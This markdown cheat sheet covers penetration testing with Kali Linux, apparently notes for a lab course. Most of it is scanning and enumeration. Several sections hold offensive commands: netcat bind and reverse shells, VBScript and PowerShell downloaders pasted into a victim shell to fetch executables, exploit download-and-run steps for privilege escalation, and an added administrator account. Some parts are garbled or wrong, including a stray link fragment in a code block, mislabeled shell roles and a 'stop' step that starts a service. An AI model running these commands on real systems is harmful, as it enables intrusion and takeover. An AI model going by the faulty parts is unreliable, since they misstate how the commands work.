# Pentest with Kali

## Table of Contents

* [Welcome](#welcome)
	* [Finding Files](#finding-files)
	* [Services in Kali](#services-in-kali)
	* [Bash Shell](#bash-shell)
* [Essential Tools](#essential-tools)
	* [Netcat](#netcat)
		* [Netcat checking ports](#netcat-checking-ports)
		* [Netcat chat](#netcat-chat)
		* [Netcat transferring file](#netcat-transferring-file)
		* [Netcat Bind Shell](#netcat-bind-shell)
		* [Netcat Reverse Shell](#netcat-reverse-shell)
		* [Netcat Bind Shell Encrypted](#netcat-bind-shell-encrypted)
* [Passive Information Gathering](#passive-information-gathering)
	* [Google Search Sample](#google-search-sample)
	* [Google Search Operator](#google-search-operator)
	* [Google Hacking Database](#google-hacking-database)
* [Active Information Gathering](#active-information-gathering)
	* [Forward DNS Lookup](#forward-dns-lookup)
	* [Reverse DNS Lookup](#reverse-dns-lookup)
	* [Zone Transfers](#zone-transfers)
	* [NMAP](#nmap)
		* [Ping Scan](#ping-scan)
		* [Port Scan](#port-scan)
		* [SYN Scan](#syn-scan)
		* [TCP Scan ](#TCP-Scan )
		* [UDP Scan](#UDP-scan)
		* [Service and Version Detection](#Service-and-Version-Detection)
		* [Script scanning](#Script-scanning)
* [SMB Enumeration](#SMB-Enumeration)
	* [Nmap SMB](#Nmap-SMB)
	* [nbtscan](#nbtscan)
	* [rpcclient](#rpcclient)
	* [enum4linux](#enum4linux)
	* [Nmap Scripts SMB](#Nmap-Scripts-SMB)
* [SMTP Enumeration](#SMTP-Enumeration)
	* [Netcat SMTP](#netcat-smtp)
	* [VRFY Bash Script](#vrfy-bash-script)
	* [Python script](#python-script)
* [SNMP Enumeration](#snmp-enumeration)
	* [Nmap SNMP](#nmap-snmp)
	* [onesixtyone](#onesixtyone)
	* [SNMPWalk](#snmpwalk)
* [Vulnerability Scanning](#vulnerability-scanning)
	* [Scanning Using NMAP scripts](#scanning-using-nmap-scripts)
	* [Open Vulnerability Assessment System](#open-vulnerability-assessment-system)
* [Finding Exploits](#finding-exploits)
* [File Transfers](#file-transfers)
	* [TFTP](#tftp)
	* [FTP](#ftp)
	* [VBScript](#vbscript)
	* [Powershell](#powershell)
* [Privilege Escalation](#Privilege-Escalation)
	* [Linux Privilege Escalation](#Linux-Privilege-Escalation)
	* [Windows Priviledge Escalation](#Windows-Priviledge-Escalation)


## Welcome

### Finding Files

1. locate 
    • locates  files  using  database  
    • needs  to  update  database to use it               
```[SYN Scan](#syn-scan
* [SYN Scan](#syn-scan)
)

$ updatedb 
$ locate  sbd.exe 
```

2. which 
``` 
$ which  sbd 
```

3. find 

```
# Find  files  in the folder / that starts  with  sbd 
$ find  /  -name  sbd* 
 
# Shows  the  file  type  of  the  files  found 
$ find / -name sbd* -exec file {} \;
```
[Back to Table of Contents](#Table-of-Contents)

### Services in Kali
```
# Start service 
$ service apache2 start 
$ systemctl start apache2 .service 
$ /etc/init.d/ssh start 
 
# Stop service 
$ service apache2 stop 
$ systemctl  stop apache2 .service 
$ /etc/init.d/ssh start 
 
# Enable service starts at bootup 
$ systemctl enable apache2 .service 
$ update-rc.d ssh enable 
 
# Disable service starts at bootup 
$ systemctl disable apache2 .service 
$ update-rc.d ssh disable 
 
# GUI  enable  and  disable  start service at bootup             
$ rcconf
```
[Back to Table of Contents](#Table-of-Contents)

### Bash Shell

Bash (Bourne Again Shell) 
• is the free version of theBourne shell distributed with Linux and GNU operating systems.
• is similar to the original, but has added features such as command line editing.
• Created to improve on the earlier sh shell, Bash includes features from the Korn shell and the Cshell.

Task : Find all the cisco sub domains listed on the index page and find their corresponding IP addresses

```
# Get the index page of the website
$ wget www.cisco.com

# You will get index.html file
$ cat index.html | grep "href="
$ cat index.html | grep "href=" | cut -d "/" -f3
$ cat index.html | grep "href=" | cut -d "/" -f3 | grep "cisco.com"
$ cat index.html | grep "href=" | cut -d "/" -f3 | grep "cisco.com" | sort –u

# Save the cisco sub domains into cisco.txt file
$ cat index.html | grep "href=" | cut -d "/" -f3 | grep "cisco.com" | sort –u > cisco.txt

$ host www.cisco.com
$ host www.cisco.com | grep "has address"
$ host www.cisco.com | grep "has address" | cut -d " " -f4
```

Create bash script getting the IP address of all cisco.com sub domains 
```
#!/bin/bash
for url in $(cat cisco.txt);do
host $url | grep "has address" | cut -d " " -f4
done
```

Create bash script that will find the live host in the network
```
#!/bin/bash 
for net in $(seq 1 254);do 
ping -c 1 192.168.100.$net | grep "bytes from" | cut -d " " -f4 | cut -d ":" -f 1 & 
done
```
[Back to Table of Contents](#Table-of-Contents)

## Essential Tools

### Netcat
* is a computer networking utility for reading from and writing to network connections using TCP or UDP

#### Netcat checking ports
```
# Check if SMTP port is open 
nc -nv 192.168.56.101 25


# Check  if POP3 port is open 
nc -nv 192.168.56.101 110

# Check  if IMAP port is open 
nc -nv 192.168.56.101 143
```
[Back to Table of Contents](#Table-of-Contents)

#### Netcat chat
```
# Set netcat in server mode and listen in port 4444
nc -nvlp 4444 

Set netcat as a tcp client to connect to port 4444
$ nc -nv 192.168.56.101 4444
```
[Back to Table of Contents](#Table-of-Contents)

#### Netcat transferring file
```
# PC that wil receive the file
nc -nvlp 4444 > incoming.exe (PC  that  will  receive) 

# PC that will trasfer the file
nc -nv 192.168.56.101 < /usr/share/windows-binaries/wgwt.exe
```

[Back to Table of Contents](#Table-of-Contents)

#### Netcat Bind Shell
```
# Windows PC
nc -nvlp 4444 -e cmd.exe

# Kali PC
nc -nv 192.168.56.101 4444
```
[Back to Table of Contents](#Table-of-Contents)

#### Netcat Reverse Shell
```
# Windows PC
nc -nvlp 4444

# Kali PC
nc -nv 192.168.56.101 4444 -e /bin/bash
```
[Back to Table of Contents](#Table-of-Contents)

#### Netcat Bind Shell Encrypted
```
[Back to Table of Contents](#Table-of-Contents)
# Windows PC 
C:\Users\sherwinowen>ncat  -lvp  4444  -e  cmd.exe  --allow 192.168.56.1 --ssl

# Kali PC 
ncat -v 192.168.56.101 4444 --ssl
```
[Back to Table of Contents](#Table-of-Contents)

## Passive Information Gathering

### Google Search Sample

```
site: "microsoft.com" -site:"www.microsoft.com"

site: "microsoft.com" filetype:ppt "penetration testing"
```
[Back to Table of Contents](#Table-of-Contents)

### Google Search Operator

“search term” Force an exact-match search. Use this to refine results for ambiguous searches, or to exclude synonyms when searching for single words.
```
Example: “steve jobs”
```
OR Search for X or Y. This will return results related to X or Y, or both. Note: The pipe (|) operator can also be used in place of “OR.”
```
Examples: jobs OR gates / jobs | gates
```
AND Search for X and Y. This will return only results related to both X and Y. Note: It doesn’t really make much difference for regular searches, as Google defaults to “AND” anyway. But it’s very useful when paired with other operators.
```
Example: jobs AND gates
```
Exclude a term or phrase. In our example, any pages returned will be related to jobs but not Apple (the company).
```
Example: jobs ‑apple *
```
Acts as a wildcard and will match any word or phrase.
```
Example: steve * apple ( )
```
Group multiple terms or search operators to control how the search is executed.
```
Example: (ipad OR iphone) apple
```

Search for prices. Also works for Euro (€), but not GBP (£) 🙁
```
Example: ipad $329 define:
```
A dictionary built into Google, basically. This will display the meaning of a word in a card-like result in the SERPs.
```
Example: define:entrepreneur cache:
```
Returns the most recent cached version of a web page (providing the page is indexed, of course).
```
Example: cache:apple.com filetype:
```
Restrict results to those of a certain filetype. E.g., PDF, DOCX, TXT, PPT, etc. Note: The “ext:” operator can also be used—the results are identical.
```
Example: apple filetype:pdf / apple ext:pdf site:
```
Limit results to those from a specific website.
```
Example: site:apple.com related:
```
Find sites related to a given domain.
```
Example: related:apple.com intitle:
```
Find pages with a certain word (or words) in the title. In our example, any results containing the word “apple” in the title tag will be returned.
```
Example: intitle:apple allintitle:
```
Similar to “intitle,” but only results containing all of the specified words in the title tag will be returned.
```
Example: allintitle:apple iphone inurl:
```
Find pages with a certain word (or words) in the URL. For this example, any results containing the word “apple” in the URL will be returned.
```
Example: inurl:apple allinurl:
```
Similar to “inurl,” but only results containing all of the specified words in the URL will be returned.
```
Example: allinurl:apple iphone intext:
```
Find pages containing a certain word (or words) somewhere in the content. For this example, any results containing the word “apple” in the page content will be returned.
```
Example: intext:apple allintext:
```
Similar to “intext,” but only results containing all of the specified words somewhere on the page will be returned.
```
Example: allintext:apple iphone AROUND(X)
```
Proximity search. Find pages containing two words or phrases within X words of each other. For this example, the words “apple” and “iphone” must be present in the content and no further than four words apart.
```
Example: apple AROUND(4) iphone weather:
```
Find the weather for a specific location. This is displayed in a weather snippet, but it also returns results from other “weather” websites.
```
Example: weather:san francisco stocks:
```
See stock information (i.e., price, etc.) for a specific ticker.
```
Example: stocks:aapl map:
```
Force Google to show map results for a locational search.
```
Example: map:silicon valley movie:
```
Find information about a specific movie. Also finds movie showtimes if the movie is currently showing near you.
```
Example: movie:steve jobs
```
in
Convert one unit to another. Works with currencies, weights, temperatures, etc.
```
Example: $329 in GBP
```
source:
Find news results from a certain source in Google News.
```
Example: apple source:theverge
```
Not exactly a search operator, but acts as a wildcard for Google Autocomplete.
```
Example: apple CEO _ jobs
```
Here are the ones that are hit and miss, according to my testing:

..
Search for a range of numbers. In the example below, searches related to “WWDC videos” are returned for the years 2010–2014, but not for 2015 and beyond.
```
Example: wwdc video 2010..2014
```

inanchor:
Find pages that are being linked to with specific anchor text. For this example, any results with inbound links containing either “apple” or “iphone” in the anchor text will be returned.
```
Example: inanchor:apple iphone
```

allinanchor:
Similar to “inanchor,” but only results containing all of the specified words in the inbound anchor text will be returned.
```
Example: allinanchor:apple iphone blogurl:
```
Find blog URLs under a specific domain. This was used in Google blog search, but I’ve found it does return some results in regular search.
```
Example: blogurl:microsoft.com Sidenote. Google blog search discontinued in 2011 loc:placename
```
Find results from a given area.
```
Example: loc:”san francisco” apple Sidenote. Not officially deprecated, but results are inconsistent. location:
```
Find news from a certain location in Google News.
```
Example: loc:”san francisco” apple Sidenote. Not officially deprecated, but results are inconsistent.
```

[Back to Table of Contents](#Table-of-Contents)

### Google Hacking Database

Website:https://www.exploit-db.com/google-hacking-database 

[Back to Table of Contents](#Table-of-Contents)

## Active Information Gathering

### Forward DNS Lookup

1. Create a list of possible hostname
```
vi list.txt 
www 
ftp 
mail 
owa 
proxy 
router 
admin 
www2 
firewall 
mx 
pop3
```

2. Create a bash script that will try to check the different sub
```
#!/bin/bash

for name in $(cat list.txt) ;do
	host $name.megacorpone.com | grep "has address" | cut -d" " -f1,4
done
```

[Back to Table of Contents](#Table-of-Contents)

### Reverse DNS Lookup

Create a bash script that will the check the hostname of the following IP. 

```
#!/bin/bash

for ip in $(seq 72 91);do
	host 38.100.193.$ip | grep "megacorp" | cut -d" " -f1,5
done
```
[Back to Table of Contents](#Table-of-Contents)

### Zone Transfers
```
# List the name server of a domain name
$ host -t ns megacorpone.com 

# List  all  other  sub  domains 
$ host -l megacorpone.com ns2.megacorpone.com
```
[Back to Table of Contents](#Table-of-Contents)

### NMAP

#### Ping Scan 
Tools: Nmap, Angry IP Scanner, Advanced IP Scanner, Colasoft Ping Tool 

```
# Disable port scanning
nmap 192.168.1.1/24 -sn

# Never do DNS resolution
nmap 192.168.1.1 -n

# ARP discovery on local network
nmap 192.168.1.1-1/24 -PR

# No Scan. List targets only
nmap 192.168.1.1-3 -sL
```

```
nmap -sn 116.93.111.129-142

# Output scan result Grepable format  
nmap -sn 116.93.111.129-142 -oG ping-sweep-nmap

grep UP ping-sweep-nmap | cut -d “” -f2
```
[Back to Table of Contents](#Table-of-Contents)

#### Port Scan
```
# Port scan for port x
nmap 192.168.1.1 -p 21					

# Port range
nmap 192.168.1.1 -p 21-100

# Port scan from service name
nmap 192.168.1.1 -p http,https

# Port scan multiple TCP and UDP ports
nmap 192.168.1.1 -p U:53,T:21-25,80   

# Fast port scan (100 ports) 
nmap 192.168.1.1 -F

# Port scan all ports
nmap 192.168.1.1 -p- 
```
[Back to Table of Contents](#Table-of-Contents)

#### SYN Scan
Tools: Nmap, Netscan Tools Pro, PRTG Network Monitor, SuperScan     

```
nmap -sS 192.168.200.0/24 --top-ports 50
```







[Back to Table of Contents](#Table-of-Contents)

#### TCP Scan 

```
nmap -n -sT 192.168.200.6 -p22,23,80 --reason

nmap -sT 192.168.200.5 -n -Pn --top-ports 10
```



[Back to Table of Contents](#Table-of-Contents)

#### UDP scan

```
nmap -sU -p161 10.0.0.1

nmap -n -Pn -sU 192.168.200.5 --top-ports 10 -sV --reason
```


[Back to Table of Contents](#Table-of-Contents)

#### Service and Version Detection 

```
nmap -n -Pn -sS 192.168.200.5 --top-ports 10 -sV   
```
[Back to Table of Contents](#Table-of-Contents)

#### Operating System Detection
```
nmap -n -sS 172.16.200.5 --top-ports 100 -O 

# to be more aggressive
nmap -n -sS 172.16.200.5 --top-ports 100 -O --osscan-guess 
```

[Back to Table of Contents](#Table-of-Contents)

#### Script scanning
```
$ nmap -sS -n -Pn 192.168.200.5 -p22 -sC -vvv 
 
# Shows script category and description
$ nmap --script-help smb-brute    

# Run the script try brute force attack
$ nmap 192.168.200.4 -p443 --script ssh-brute -sV
```




[Back to Table of Contents](#Table-of-Contents)

## SMB Enumeration

### Nmap SMB
```
nmap -p139,445 192.168.56.101 --open
```

[Back to Table of Contents](#Table-of-Contents)

### nbtscan
```
nbtscan 192.168.56.0/24
```

[Back to Table of Contents](#Table-of-Contents)

Null Sessions
Windows NT 2000 and Windows XP • SMB allow null session

### rpcclient
```
rpcclient -U “” 192.168.56.101 (enter blank password)
```


[Back to Table of Contents](#Table-of-Contents)

### enum4linux
```
enum4linux -v 192.168.56.101
```

[Back to Table of Contents](#Table-of-Contents)

### Nmap Scripts SMB

List all the SMB NSE script in nmap
```
ls -l /usr/share/nmap/scripts/ | grep smb
-rw-r--r-- 1 root root  3355 Mar 10 12:52 smb2-capabilities.nse
-rw-r--r-- 1 root root  3075 Mar 10 12:52 smb2-security-mode.nse
-rw-r--r-- 1 root root  1447 Mar 10 12:52 smb2-time.nse
-rw-r--r-- 1 root root  5238 Mar 10 12:52 smb2-vuln-uptime.nse
-rw-r--r-- 1 root root 45138 Mar 10 12:52 smb-brute.nse
-rw-r--r-- 1 root root  5289 Mar 10 12:52 smb-double-pulsar-backdoor.nse
-rw-r--r-- 1 root root  4840 Mar 10 12:52 smb-enum-domains.nse
-rw-r--r-- 1 root root  5971 Mar 10 12:52 smb-enum-groups.nse
-rw-r--r-- 1 root root  8043 Mar 10 12:52 smb-enum-processes.nse
-rw-r--r-- 1 root root 27274 Mar 10 12:52 smb-enum-services.nse
-rw-r--r-- 1 root root 12097 Mar 10 12:52 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Mar 10 12:52 smb-enum-shares.nse
-rw-r--r-- 1 root root 12527 Mar 10 12:52 smb-enum-users.nse
-rw-r--r-- 1 root root  1706 Mar 10 12:52 smb-flood.nse
-rw-r--r-- 1 root root  7393 Mar 10 12:52 smb-ls.nse
-rw-r--r-- 1 root root  8758 Mar 10 12:52 smb-mbenum.nse
-rw-r--r-- 1 root root  8220 Mar 10 12:52 smb-os-discovery.nse
-rw-r--r-- 1 root root  4982 Mar 10 12:52 smb-print-text.nse
-rw-r--r-- 1 root root  1898 Mar 10 12:52 smb-protocols.nse
-rw-r--r-- 1 root root 63596 Mar 10 12:52 smb-psexec.nse
-rw-r--r-- 1 root root  5190 Mar 10 12:52 smb-security-mode.nse
-rw-r--r-- 1 root root  2424 Mar 10 12:52 smb-server-stats.nse
-rw-r--r-- 1 root root 14159 Mar 10 12:52 smb-system-info.nse
-rw-r--r-- 1 root root  7524 Mar 10 12:52 smb-vuln-conficker.nse
-rw-r--r-- 1 root root  6402 Mar 10 12:52 smb-vuln-cve2009-3103.nse
-rw-r--r-- 1 root root 23154 Mar 10 12:52 smb-vuln-cve-2017-7494.nse
-rw-r--r-- 1 root root  6545 Mar 10 12:52 smb-vuln-ms06-025.nse
-rw-r--r-- 1 root root  5386 Mar 10 12:52 smb-vuln-ms07-029.nse
-rw-r--r-- 1 root root  5688 Mar 10 12:52 smb-vuln-ms08-067.nse
-rw-r--r-- 1 root root  5647 Mar 10 12:52 smb-vuln-ms10-054.nse
-rw-r--r-- 1 root root  7214 Mar 10 12:52 smb-vuln-ms10-061.nse
-rw-r--r-- 1 root root  7344 Mar 10 12:52 smb-vuln-ms17-010.nse
-rw-r--r-- 1 root root  4400 Mar 10 12:52 smb-vuln-regsvc-dos.nse
-rw-r--r-- 1 root root  6586 Mar 10 12:52 smb-vuln-webexec.nse
-rw-r--r-- 1 root root  5105 Mar 10 12:52 smb-webexec-exploit.nse
```

Nmap command
```
nmap -p139,445 --script smb-enum-users 192.168.56.101
```

[Back to Table of Contents](#Table-of-Contents)

## SMTP Enumeration

### Netcat SMTP
```
nc -nv 192.168.56.101 25
# 250 code for user exist 
# 550 code for user not exist
```


[Back to Table of Contents](#Table-of-Contents)

### VRFY Bash Script



[Back to Table of Contents](#Table-of-Contents)

### Python script

```
#!/usr/bin/python

import socket
import sys

if len(sys.argv) !=2:
	print "Usage: vrfy.py <username>"
	sys.exit(0)

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM) #Create a Socket
connect=s.connect(('192.168.56.101',25)) # Connect to the Server
banner=s.recv(1024)			# Receive the banner
print banner
s.send('VRFY ' + sys.argv[1] + '\r\n')  # VRFY a user
result=s.recv(1024)
print result
s.close()				# Close the socket

```

[Back to Table of Contents](#Table-of-Contents)

## SNMP Enumeration

### Nmap SNMP
```
nmap -sU --open -p 161 192.168.56.101-150 --open
```

[Back to Table of Contents](#Table-of-Contents)

### onesixtyone

```
$ onesixtyone 
onesixtyone 0.3.3 [options] <host> <community>
  -c <communityfile> file with community names to try
  -i <inputfile>     file with target hosts
  -o <outputfile>    output log
  -p                 specify an alternate destination SNMP port
  -d                 debug mode, use twice for more information

  -s                 short mode, only print IP addresses

  -w n               wait n milliseconds (1/1000 of a second) between sending packets (default 10)
  -q                 quiet mode, do not print log to stdout, use with -l
host is either an IPv4 address or an IPv4 address and a netmask
default community names are: public private

Max number of hosts : 		65535
Max community length: 		32
Max number of communities: 	16384


examples: onesixtyone 192.168.4.0/24 public
          onesixtyone -c dict.txt -i hosts -o my.log -w 100
```



[Back to Table of Contents](#Table-of-Contents)

### SNMPWalk

```
snmpwalk -c public -v1 192.168.56.101
```





```
# List the System Processes
snmpwalk -c public -v1 192.168.56.101 1.3.6.1.2.1.25.4.2.1.2

# List the User Accounts
snmpwalk -c public -v1 192.168.56.101 1.3.6.1.4.1.77.1.2.25

# List the Software Installed
snmpwalk -c public -v1 192.168.56.101 1.3.6.1.2.1.25.6.3.1.2
```

[Back to Table of Contents](#Table-of-Contents)

## Vulnerability Scanning

###  Scanning Using NMAP scripts
```
# Scan using specific vulnerability
nmap -v -p 80 --script http-vuln-cve2010-2861 192.168.56.101

# Scan using all available script
$ nmap -v -p 80 --script all 192.168.56.101
```

[Back to Table of Contents](#Table-of-Contents)

### Open Vulnerability Assessment System 

OpenVAS
```
# Install OpenVAS
root@kali:~# apt update
root@kali:~# apt upgrade
root@kali:~# apt install openvas

# Setup OpenVas
root@kali:~# openvas-setup

https://127.0.0.1:9392
username: admin
password:
```
[Back to Table of Contents](#Table-of-Contents)

## Finding Exploits

Websites you can find exploits

1. https://www.securityfocus
2. https://www.exploit-db.com

Search exploit in Kali Linux
```
search
```
[Back to Table of Contents](#Table-of-Contents)

## File Transfers

### TFTP
```
# Run in Kali Linux box
atftpd --daemon --port 69 /root/tftp

# Run in Windows box victim
tftp -i 192.168.56.103 GET nc.exe
```
[Back to Table of Contents](#Table-of-Contents)

### FTP

```
# Install pure-ftpd in Kali
apt-get install pure-ftpd
```
Run bash script setup-ftp.sh
```
#!/bin/bash

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
Copy and paste in remote shell 
```
echo open 192.168.56.103 21 > ftp.txt
echo offsec >> ftp.txt
echo lab >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
```
echo open 192.168.56.103 21 > ftp.txt
echo [ftpuser] >> ftp.txt
echo [password] >> ftp.txt
echo bin >> ftp.txt
echo GET [file] >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

[Back to Table of Contents](#Table-of-Contents)

### VBScript

VBScript Transfers

```
# Copy the file you want to transfer to /var/www/ and restart apache service

$ cp msgfmt.net.exe /var/www
$ /etc/init.d/apache2 restart
```

Copy and paste this command in remote shell
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Check if the wget.vbs file is created
```
C:\Program Files\SLmail\System>dir wget.vbs
```

Run the command to copy the file from the web server
```
C:\Program Files\SLmail\System>cscript wget.vbs http://192.168.56.102/msgfmt.net.exe msgfmt.exe
```

[Back to Table of Contents](#Table-of-Contents)

### Powershell

Copy and paste this command in remote shell
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.56.102/msgfmt.net.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Check if the powershell script is correctly written
```
C:\Program Files\SLmail\System>type wget.ps1
$storageDir = $pwd 
$webclient = New-Object System.Net.WebClient
$url = "http://192.168.56.102/msgfmt.net.exe" 
$file = "output-file.exe"
echo $webclient.DownloadFile($url,$file)
```
Run the powershell script
```
C:\Program Files\SLmail\System>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
[Back to Table of Contents](#Table-of-Contents)

## Privilege Escalation

### Linux Privilege Escalation

```
# Check the OS version
cat /etc/issue

# Check Kernel version
uname -a

# Download the exploit to the victim machine
wget -O exploit.c https://www.exploit-db.com/exploits/18411

# Compile the exploit to a binary file
gcc exploit.c -o exploit

# Run the exploit
./exploit
```



[Back to Table of Contents](#Table-of-Contents)

### Windows Priviledge Escalation

Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (MS11-080)
Target OS : Windows XP , Windows Server 2003

```
# Download the exploit
wget -O ms11-080.py https://www.exploit-db.com/exploits/18176
```

Convert python script to windows executable in Windows box
1. Install python
2. Extract pyinstaller-2.0 

```
python pyinstaller.py --onefile ms11-080.py
```
You will find the windows executable file [ms11-080.exe] in folder dist



3. Run windows executable file (ms11-080.exe ) to the victim machine

```
# Add user
net user sherwin password /add

# Add user to administrators group
net localgroup administrators sherwin /add
```
[Back to Table of Contents](#Table-of-Contents)
